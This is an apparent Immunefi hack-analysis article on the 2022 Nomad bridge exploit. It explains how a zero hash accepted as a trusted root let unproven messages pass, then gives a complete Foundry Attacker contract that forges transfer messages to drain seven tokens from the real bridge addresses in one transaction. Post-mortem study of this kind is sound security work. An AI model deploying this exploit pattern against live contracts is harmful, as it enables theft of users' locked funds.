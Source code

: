 # OnChain Transaction Debugging: 7. Hack Analysis: Nomad Bridge (2022/08)

### Author: [gmhacker.eth](https://twitter.com/realgmhacker)

## Introduction
The Nomad bridge was hacked on August 1st, 2022, and $190m of locked funds were drained. After one attacker first managed to exploit the vulnerability and struck gold, other dark forest travelers jumped to replay the exploit in what eventually became a colossal, “crowdsourced” hack.

A routine upgrade on the implementation of one of Nomad’s proxy contracts marked a zero hash value as a trusted root, which allowed messages to get automatically proved. The hacker leveraged this vulnerability to spoof the bridge contract and trick it to unlock funds.

That first successful transaction alone, which can be seen [here](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), drained 100 WBTC from the bridge–around $2.3m at the time. There was no need for a flashloan or other complex interaction with another DeFi protocol. The attack simply called a function on the contract with the right message input, and the attacker continued throwing blows at the protocol’s liquidity.

Unfortunately, the simple and replayable nature of the transaction led others to collect some of the illicit profit. As [Rekt News](https://rekt.news/nomad-rekt/) put it, “Staying true to DeFi Principles, this hack was permissionless — anyone could join in.”

In this article, we will be analyzing the exploited vulnerability in the Nomad bridge’s Replica contract, and then we’ll create our own version of the attack to drain all the liquidity in one transaction, testing it against a local fork. You can check the full PoC [here](https://github.com/immunefi-team/hack-analysis-pocs/tree/main/src/nomad-august-2022).

This article was written by [gmhacker.eth](https://twitter.com/realgmhacker), an Immunefi Smart Contract Triager.

## Background

Nomad is a cross-chain communication protocol allowing, among other things, bridging of tokens between Ethereum, Moonbeam and other chains. Messages sent to Nomad contracts are verified and transported to other chains through off-chain agents, following an optimistic verification mechanism.

Like most cross-chain bridging protocols, Nomad’s token bridge is able to transfer value through different chains by a process of locking tokens on one side and minting representatives on the other. Because those representative tokens can eventually be burned to unlock the original funds (i.e. bridging back to the token’s native chain), they function as IOUs and have the same economic value as the original ERC-20s. That aspect of bridges in general leads to a big accumulation of funds inside a complex smart contract, rendering it a much-desired target for hackers.

<div align=center>
<img src="https://user-images.githubusercontent.com/107821372/217752487-9580592c-98ed-4690-b330-d211d795d276.png" alt="Cover" width="80%"/>
</div>

Locking & minting process, src: [MakerDAO’s blog](https://blog.makerdao.com/what-are-blockchain-bridges-and-why-are-they-important-for-defi/)

In Nomad’s case, a contract called `Replica`, which is deployed on all supported chains, is responsible for validating messages in a Merkle tree structure. Other contracts in the protocol rely on this for authentication of inbound messages. Once a message is validated, it is stored in the Merkle tree, generating a new committed tree root which gets confirmed to be processed.

## Root Cause

Having a rough understanding of what the Nomad bridge is, we can dive into the actual smart contract code to explore the root cause vulnerability that was leveraged in the various transactions of the August 2022 hack. To do that, we need to go deeper into the `Replica` contract.

```
   function process(bytes memory _message) public returns (bool _success) {
       // ensure message was meant for this domain
       bytes29 _m = _message.ref(0);
       require(_m.destination() == localDomain, "!destination");
       // ensure message has been proven
       bytes32 _messageHash = _m.keccak();
       require(acceptableRoot(messages[_messageHash]), "!proven");
       // check re-entrancy guard
       require(entered == 1, "!reentrant");
       entered = 0;
       // update message status as processed
       messages[_messageHash] = LEGACY_STATUS_PROCESSED;
       // call handle function
       IMessageRecipient(_m.recipientAddress()).handle(
           _m.origin(),
           _m.nonce(),
           _m.sender(),
           _m.body().clone()
       );
       // emit process results
       emit Process(_messageHash, true, "");
       // reset re-entrancy guard
       entered = 1;
       // return true
       return true;
   }
```
<div align=center>

Snippet 1: `process` function on Replica.sol, view [raw](https://gist.github.com/gists-immunefi/f8ef00be9e1c5dd4d879a418966191e0#file-nomad-hack-analysis-1-sol).

</div>

The `process` [function](https://etherscan.io/address/0xb92336759618f55bd0f8313bd843604592e27bd8#code%23F1%23L179) in the `Replica` contract is responsible for dispatching a message to its final recipient. This will only be successful if the input message has already been proven, which means that the message has already been added to the Merkle tree, leading to an accepted and trustworthy root. That check is done against the message hash, using the `acceptableRoot` view function, which will read from the confirmed roots mapping.

```
   function initialize(
       uint32 _remoteDomain,
       address _updater,
       bytes32 _committedRoot,
       uint256 _optimisticSeconds
   ) public initializer {
       __NomadBase_initialize(_updater);
       // set storage variables
       entered = 1;
       remoteDomain = _remoteDomain;
       committedRoot = _committedRoot;
       // pre-approve the committed root.
       confirmAt[_committedRoot] = 1;
       _setOptimisticTimeout(_optimisticSeconds);
   }
```
<div align=center>

Snippet 2: `initialize` function in Replica.sol, view [raw](https://gist.github.com/gists-immunefi/4792c4bb10d3f73648b4b0f86e564ac9#file-nomad-hack-analysis-2-sol).

</div>

When an upgrade happens on the implementation of a given proxy contract, the upgrading logic may execute a one-time-call initialization function. This function will set some initial state values. In particular, a routine [April 21st upgrade](https://openchain.xyz/trace/ethereum/0x99662dacfb4b963479b159fc43c2b4d048562104fe154a4d0c2519ada72e50bf) was made, and the value 0x00 was passed as the pre-approved committed root, which gets stored into the confirmAt mapping. This is where the vulnerability appeared.

Going back to the `process()` function, we see that we rely on checking for a message hash on the `messages` mapping. That mapping is responsible for marking messages as processed, so that attackers cannot replay the same message.

A particular aspect of an EVM smart contract storage is that all slots are virtually initialized as zero values, which means that if one reads an unused slot in storage, it won’t raise an exception but rather it will return 0x00. A corollary to this is that every unused key on a Solidity mapping will return 0x00. Following that logic, whenever the message hash is not present on the `messages` mapping, 0x00 will be returned, and that will be passed to the `acceptableRoot` function, which in turn will return true given that 0x00 has been set as a trusted root. The message will then be marked as processed, but anybody can simply change the message to create a new unused one and resubmit it.

The input message encodes various different parameters in a given format. Among those, for a message to unlock funds from the bridge, there’s the recipient address. So after the first attacker executed a [successful transaction](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), anyone that knew how to decode the message format could simply change the recipient address and replay the attack transaction, this time with a different message that would give profit to the new address.

## Proof of Concept

Now that we understand the vulnerability that compromised the Nomad protocol, we can formulate our own proof of concept (PoC). We will craft specific messages to call the `process` function in `Replica` function once for each specific token we want to drain, leading to protocol insolvency in just one single transaction.

We’ll start by selecting an RPC provider with archive access. For this demonstration, we will be using [the free public RPC aggregator](https://www.ankr.com/rpc/eth/) provided by Ankr. We select the block number 15259100 as our fork block, 1 block before the first hack transaction.

Our PoC needs to run through a number of steps on a single transaction to be successful. Here is a high-level overview of what we will be implementing in our attack PoC:

1. Select a given ERC-20 token and check the balance of the Nomad ERC-20 bridge contract.
2. Generate a message payload with the right parameters to unlock funds, among which our attacker address as the recipient and the full token balance as the amount of funds to be unlocked.
3. Call the vulnerable process function, which will lead to a transfer of tokens to the recipient address.
4. Loop through various ERC-20 tokens with a relevant presence on the bridge’s balance to drain those funds in the same fashion.

Let’s code one step at a time, and eventually look at how the entire PoC looks. We will be using Foundry.

## The Attack

```
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);
 
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```
<div align=center>

Snippet 3: The start of our attack contract, view [raw](https://gist.github.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac#file-nomad-hack-analysis-3-sol).

</div>

Let’s begin by creating our Attacker contract. The entry point to our contract will be the `attack` function, which is as simple as a for loop going through various different token addresses. We check `ERC20_BRIDGE`’s balance of the specific token that we’re dealing with. This is the address of the Nomad ERC-20 bridge contract, which holds the locked funds on Ethereum.

After that, the malicious message payload is generated. The parameters that will change in each loop iteration are the token address and the amount of funds to be transferred. The generated message will be the input to the `IReplica.process` function. As we already established, this function will forward the encoded message to the right end contract on the Nomad protocol to bring the unlock and transferring request to fruition, effectively tricking the bridge logic.

```

contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
<div align=center>

Snippet 4: Generate the malicious message with the right format and parameters, view [raw](https://gist.github.com/gists-immunefi/2a5fbe2e6034dd30534bdd4433b52a29#file-nomad-hack-analysis-4-sol).

</div>

The generated message needs to be encoded with various different parameters, so that it gets properly unpacked by the protocol. Importantly, we need to specify the forwarding path of the message — the bridge router and the ERC-20 bridge addresses. We must flag the message as a token transfer, hence the `0x3` value as the type.

Finally, we have to specify the parameters that will bring the profit to us–the right token address, the amount to be transferred, and the recipient of that transfer. As we’ve seen already, this will surely create a brand new original message that will never have been processed by the `Replica` contract, which means that it will actually be seen as valid, according to our previous explanation.

Quite impressively, this completes the entire exploit logic. If we had some Foundry logs, our PoC still amounts to only 87 lines of code.

If we run this PoC against the forked block number, we will get the following profits:

* 1,028 WBTC
* 22,876 WETH
* 87,459,362 USDC
* 8,625,217 USDT
* 4,533,633 DAI
* 119,088 FXS
113,403,733 CQT

## Conclusion

The Nomad Bridge exploit was one of the biggest hacks of 2022. The attack stresses the importance of security throughout the entire protocol. In this particular case, we’ve learned how a single routine upgrade on a proxy implementation can cause a critical vulnerability and compromise all locked funds. Furthermore, during development one needs to be careful regarding the 0x00 default values on storage slots, specially in logic involving mappings. It’s also good to have some unit testing setup for such common values that might lead to vulnerabilities.

It should be noted that some scavenger accounts that drained portions of the funds returned them to the protocol. There are [plans to relaunch the bridge](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90), and the returned assets will be distributed to users through pro-rata shares of those recovered funds. Any stolen funds can be returned to Nomad’s [recovery wallet](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154).

As previously pointed out, this PoC actually enhances the hack and drains all TVL in one transaction. It is a simpler attack than what actually took place in reality. This is what our entire PoC looks like, with the addition of some helpful Foundry logs:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);
 
           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );
 
           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
 
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),          // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),      // Recipient of the transfer
           uint256(amount),                  // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
<div align=center>

Snippet 5: all code, view [raw](https://gist.github.com/gists-immunefi/2bdffe6f9683c9b3ab810e1fb7fe4aff#file-nomad-hack-analysis-5-sol).

</div>
